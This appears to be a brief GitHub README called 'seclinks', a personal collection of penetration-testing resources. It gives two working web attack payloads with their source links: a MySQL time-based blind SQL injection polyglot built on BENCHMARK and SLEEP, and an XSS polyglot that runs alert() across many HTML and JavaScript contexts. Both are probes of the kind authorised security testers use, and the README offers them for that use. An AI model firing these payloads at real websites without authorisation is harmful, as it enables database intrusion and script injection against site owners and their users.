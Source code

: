 # seclinks
Collection of my various security/penetration testing resources

SQL Injection:  
    MySQL universal SQLi payload (https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/):  
> IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/


XSS:  
    XSS Polyglot (https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) 
> jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e



